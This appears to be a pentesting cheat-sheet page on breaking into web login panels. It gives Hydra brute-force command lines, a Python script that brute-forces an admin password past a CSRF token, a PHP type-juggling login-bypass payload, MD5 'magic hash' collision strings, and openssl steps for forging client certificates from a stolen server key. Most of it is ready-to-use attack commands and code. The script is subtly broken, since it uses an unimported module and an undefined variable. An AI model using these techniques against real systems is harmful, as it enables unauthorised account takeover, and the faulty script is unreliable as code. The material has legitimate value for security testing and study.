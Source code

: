 ```yaml
---
description: >-
  We can find some login panes that we want to bypass or bruteforce. Here you
  can find some amazing tricks.
---
```


# Login Panes

## Bruteforce it!

### Hydra

hydra is a powerful network service attack tool that attacks a variety of protocol authentication schemes, including SSH and HTTP.

#### POST Forms

```text
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-form-post "/index.php:user=^USER^&password=^PASS^:Invalid Credentials"

-l user
-L user wordlist
-p password
-P password wordlist
```

### Basic Auth

```text
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-get /index.php
```

### My own script

I made my own script in order to bruteforce some login panes with CSRF protection. I think is a good alternative to the Burpsuite  **Pitchfork attack.**

```text
#!/usr/bin/env python3

import sys, os, requests, codecs

s = requests.Session()

# Get CRSF TOKEN
resp = s.get("https://WEBPAGE.LOCAL/", verify=False)
regex = '<input type="hidden" name="csrf" value="(.*)"'
token = re.search(regex,resp.text).group(1)

with codecs.open("/usr/share/wordlists/rockyou.txt", 'r', encoding='utf-8', errors='ignore') as wordlist:
	dic = wordlist.read().splitlines()
	for pwd in dic:

		#Bruteforce
		data_post = {
			"csrf" : token,
			"username" : "admin",
			"password" : pwd,
		}
		print("[!] Trying: " + pwd)
		resp2 = s.post("https://WEBPAGE.LOCAL/login", json=data_post, verify=False)
		if "permission_denied" not in resp2.text:
			print("Username = " + username + "Password = " + pwd)
			sys.exit(0)	
```

## Bypass it!

The are very different methods to bypass a login pane, this are the most common ones.

### SQLi

There are more info to bypass login panes with SQL Injections in:

{% page-ref page="sqli.md" %}

### PHP Type Juggling \(==\)

How PHP’s type comparison features lead to vulnerabilities and in that case to bypass the login. Loose comparisons \(==\)  have a set of operand conversion rules to make it easier for developers. 

Let's check the differences between Strict comparisons \(===\) and Loose comparisons \(==\).

![PHP Strict comparison](../.gitbook/assets/2021-02-18_212144.png)

![PHP Loose comparison](../.gitbook/assets/image%20%286%29.png)

When we find some code like this:

```text
if($_POST['password'] == "secretpass")
```

Instead of send a string we send an array we will bypass the login:

```text
username=admin&password[]=
```

{% embed url="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf" %}

#### Magic Hashes

This particular implication for password hashes wen the operator equals-equals\(==\) is used. The problem is in == comparison, the 0e means that if the following characters are all digits the whole string gets treated as a float. Below is a list of hash types that when hashed are ^0+ed\*$ which equates to zero in PHP when magic hashes typing using the “==” operator is applied. That means that when a password hash starts with “0e…” as an example it will always appear to match the below strings, regardless of what they actually are if all of the subsequent characters are digits from “0-9”.

```text
# MD5
240610708 - 0e462097431906509019562988736854
QNKCDZO   - 0e830400451993494058024219903391
aabg7XSs  - 0e087386482136013740957780965295
```

{% embed url="https://www.whitehatsec.com/blog/magic-hashes/" %}

## Client Certificates

 **SSL/TLS** certificates are commonly used for both encryption and identification of the parties, sometimes this is used instead of credentials at login.

### Setting up the private key and the certificate \(Server\)

 First of all, we need to generate our keys and certificates. We use the `openssl` command-line tool.

```text
openssl req -x509 -newkey rsa:4096 -keyout server_key.pem -out server_cert.pem -nodes -days 365 -subj "/CN=localhost/O=Client\ Certificate\ Demo"
```

### Setting up client certificates

To create a key and a Certificate Signing Request for Alice and Bob we can use the following command:

```text
openssl req -newkey rsa:4096 -keyout alice_key.pem -out alice_csr.pem -nodes -days 365 -subj "/CN=Alice"
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/CN=Bob"
```

#### Server Signed Certificate:

```text
openssl x509 -req -in alice_csr.pem -CA server_cert.pem -CAkey server_key.pem -out alice_cert.pem -set_serial 01 -days 365
```

Maybe during the pentest we found the server key, remember that **we can download the server certificate** with the browser.

![](../.gitbook/assets/cert.png)

#### Self-Signed Certificate:

```text
openssl x509 -req -in bob_csr.pem -signkey bob_key.pem -out bob_cert.pem -days 365
```

### Trying to get in

To use these certificates in our browser or via curl, we need to bundle them in PKCS\#12 format.

```text
openssl pkcs12 -export -clcerts -in alice_cert.pem -inkey alice_key.pem -out alice.p12
openssl pkcs12 -export -in bob_cert.pem -inkey bob_key.pem -out bob.p12
```

#### Via Browser

`Settings -> Privacy & Security -> Security -> Certificates -> View Certificates... -> Your Certificates -> Import`

![](../.gitbook/assets/importcert.png)

#### Via Curl

```text
curl --insecure --cert mvc1009.p12 --cert-type p12 https://localhost:443/
```

{% embed url="https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326" %}



## References:

* [https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/](https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/)
* [https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)
* [https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)
* [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)



